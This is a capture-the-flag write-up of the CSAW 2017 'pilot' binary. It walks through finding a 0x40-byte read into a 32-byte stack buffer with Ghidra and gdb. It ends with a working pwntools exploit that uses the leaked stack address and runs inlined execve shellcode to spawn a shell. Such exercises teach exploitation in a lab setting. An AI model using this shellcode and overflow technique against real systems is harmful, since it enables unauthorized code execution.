








# Csaw 2017 pilot

This was done on `Ubuntu 20.04.4 LTS`.

Let's take a look at the binary:



And now run the bindary:



So we can see that we are dealing with a 64 bit binary with NX (non-executable stack) turned off. When we run it, we see that it prints out a lot of text, including what looks like a memory address from the stack memory region. It then prompts us for input. Looking through the functions in Ghidra, we don't see a function labeled main. This is because the symbol for `main` is stripped from the binary. There are several ways we can find the main function. One such way is looking at the `entry` function, and the first argument to the `__libc_start_main` function, which we see is the `0x004009a6` function:



We can aslo find the function, via looking at the xrefs to the strings we see printed, which also leads us to the `0x004009a6` function:



Looking at the `FUN_004009a6` function, we see this:

```
undefined8 FUN_004009a6(void)

{
  basic_ostream *pbVar1;
  basic_ostream<char,std::char_traits<char>> *this;
  ssize_t sVar2;
  undefined8 uVar3;
  undefined local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"[*]Welcome DropShip Pilot...");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"[*]I am your assitant A.I....");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "[*]I will be guiding you through the tutorial....");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "[*]As a first step, lets learn how to land at the designated location... ."
                          );
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "[*]Your mission is to lead the dropship to the right location and execut e sequence of instructions to save Marines & Medics..."
                          );
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"[*]Good Luck Pilot!....");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"[*]Location:");
  this = (basic_ostream<char,std::char_traits<char>> *)
         std::basic_ostream<char,std::char_traits<char>>::operator<<
                   ((basic_ostream<char,std::char_traits<char>> *)pbVar1,local_28);
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            (this,std::endl<char,std::char_traits<char>>);
  std::operator<<((basic_ostream *)std::cout,"[*]Command:");
  sVar2 = read(0,local_28,0x40);
  if (sVar2 < 5) {
    pbVar1 = std::operator<<((basic_ostream *)std::cout,"[*]There are no commands....");
    std::basic_ostream<char,std::char_traits<char>>::operator<<
              ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
               std::endl<char,std::char_traits<char>>);
    pbVar1 = std::operator<<((basic_ostream *)std::cout,"[*]Mission Failed....");
    std::basic_ostream<char,std::char_traits<char>>::operator<<
              ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
               std::endl<char,std::char_traits<char>>);
    uVar3 = 0xffffffff;
  }
  else {
    uVar3 = 0;
  }
  return uVar3;
}
```

Looking through this code, we see that it prints a lot of text. However there are two important sections. The first is where it scans in the data with the `read` call at `0x00400ae0`:



We can see that it scans in `0x40` bytes worth of input into `input`. The char array `input` can only hold `32` (`0x20`) bytes worth of input, so we have an overflow. Also we can see that the address printed is an infoleak (information about the program that is leak) for the start of our input in memory on the stack (look at the `local_28`, which our input gets scanned into):



Looking at the stack layout in Ghidra, there doesn't really look like there is anything between the start of our input and the return address. With our overflow we should be able to overwrite the return address and get code execution. Looking at the stack layout, we see that our input is stored at offset `0x28`, so we should be able to reach the saved return address from the start of our input with `0x28` bytes:



We can also find the offset between the start of our input and the return address using gdb. We will set a breakpoint for right after the read call, and look at the memory there:

```
gef➤  b *0x400ae5
Breakpoint 1 at 0x400ae5
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/csaw17_pilot/pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffde80
[*]Command:15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x9               
$rbx   : 0x0               
$rcx   : 0x00007ffff776b081  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x40              
$rsp   : 0x00007fffffffde80  →  0x3832373533393531 ("15935728"?)
$rbp   : 0x00007fffffffdea0  →  0x0000000000400b90  →   push r15
$rsi   : 0x00007fffffffde80  →  0x3832373533393531 ("15935728"?)
$rdi   : 0x0               
$rip   : 0x0000000000400ae5  →   cmp rax, 0x4
$r8    : 0x0               
$r9    : 0x00007ffff7fd7d00  →  0x00007ffff7fd7d00  →  [loop detected]
$r10   : 0x6               
$r11   : 0x246             
$r12   : 0x00000000004008b0  →   xor ebp, ebp
$r13   : 0x00007fffffffdf80  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde80│+0x0000: 0x3832373533393531	 ← $rsp, $rsi
0x00007fffffffde88│+0x0008: 0x000000000040080a  →  <setvbuf@plt+10> add cl, ch
0x00007fffffffde90│+0x0010: 0x00007fffffffdf80  →  0x0000000000000001
0x00007fffffffde98│+0x0018: 0x0000000000000000
0x00007fffffffdea0│+0x0020: 0x0000000000400b90  →   push r15	 ← $rbp
0x00007fffffffdea8│+0x0028: 0x00007ffff767cb97  →  <__libc_start_main+231> mov edi, eax
0x00007fffffffdeb0│+0x0030: 0x0000000000000000
0x00007fffffffdeb8│+0x0038: 0x00007fffffffdf88  →  0x00007fffffffe2cc  →  "/Hackery/pod/modules/bof_shellcode/csaw17_pilot/pi[...]"
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400ad8                  mov    rsi, rax
     0x400adb                  mov    edi, 0x0
     0x400ae0                  call   0x400820 <read@plt>
 →   0x400ae5                  cmp    rax, 0x4
     0x400ae9                  setle  al
     0x400aec                  test   al, al
     0x400aee                  je     0x400b2f
     0x400af0                  mov    esi, 0x400d90
     0x400af5                  mov    edi, 0x6020a0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pilot", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400ae5 → cmp rax, 0x4
[#1] 0x7ffff767cb97 → __libc_start_main(main=0x4009a6, argc=0x1, argv=0x7fffffffdf88, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdf78)
[#2] 0x4008d9 → hlt 
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000000000400ae5 in ?? ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffde80 - 0x7fffffffde88  →   "15935728[...]" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x400ae5; saved rip = 0x7ffff767cb97
 called by frame at 0x7fffffffdf70
 Arglist at 0x7fffffffde78, args: 
 Locals at 0x7fffffffde78, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rbp at 0x7fffffffdea0, rip at 0x7fffffffdea8
```

So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde80 = 0x28` bytes. So now that we've figured out how to overwrite the saved return address, the question is what code we want to execute. We can tell that the stack is executable, since `NX` is turned off. This means that we can execute data stored in the stack memory region, as code. We also have an infoleak from the stack memory region, of specifically where our input gets stored. These two things mean we can load data into memory at a spot that we know the address of, and can execute as instructions. This data I insert is called shellcode, which is just instructions that we insert somewhere into memory, with the hope of running them to accomplish something. As such, we can load shellcode at the start of our input, then some filler data between the end of our shellcode and the return address, and then overwrite the saved return address with the address of our shellcode. That would lead to us to execute instructions of our choosing, and we will have our shellcode just give us a shell. Putting it all together, we have this exploit:

```
from pwn import *

target = process('./pilot')

print(target.recvuntil(b"[*]Location:"))

leak = target.recvline()

inputAdr = int(leak.strip(b"\n"), 16)

payload = b""
# This shellcode is originally from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/
# However it looks like that site is down now
# This shellcode will pop a shell when we run it
payload += b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05" 

# Padding to the return address
payload += b"0"*(0x28 - len(payload))

# Overwrite the return address with the address of the start of our input
payload += p64(inputAdr)

# Send the payload, drop to an interactive shell to use the shell we pop
target.send(payload)

target.interactive()
```

When we run it:



Just like that, we popped a shell! A lot of ctf pwn challenges will have us pwn the challenge and spawn a shell, and when we run it against the actual running instance, we will use the shell to read the contents of a flag file.
